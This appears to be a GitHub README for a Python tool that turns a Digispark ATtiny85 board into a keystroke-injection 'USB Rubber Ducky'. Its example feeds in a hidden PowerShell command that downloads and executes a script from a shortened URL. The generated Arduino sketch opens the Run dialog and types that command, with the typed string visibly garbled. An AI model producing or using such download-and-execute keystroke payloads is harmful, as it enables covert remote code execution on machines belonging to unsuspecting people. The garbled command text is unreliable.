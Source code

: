 # Digispark ATtiny85 a Cheap "USB Rubber Ducky"

##Usage
    $ python DigiDuck.py
    Enter command to execute: [COMMAND]
  
##Example

    $ python DigiDuck.py
    Enter command to execute: powershell -window hidden IEX (New-Object System.Net.Webclient).DownloadString('https://tinyurl.com/z766ych')
    Attack.ino file created successfully!

##Output

```    
#define KEY_DELETE 76

  void setup() {
  DigiKeyboard.update();
}

void loop() {
  delay(100);
  DigiKeyboard.update();
  delay(100);
  
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  delay(100);
  DigiKeyboard.sendKeyStroke(KEY_DELETE);
  delay(50);
  DigiKeyboard.println("powershell /window hidden IEX *New/Object System.Net.Webclient(.DownloadString*-https>&&tinyurl.com&z766ych-(");
  delay(900000);
}
```

##Creds
http://0xdeadcode.se/archives/581
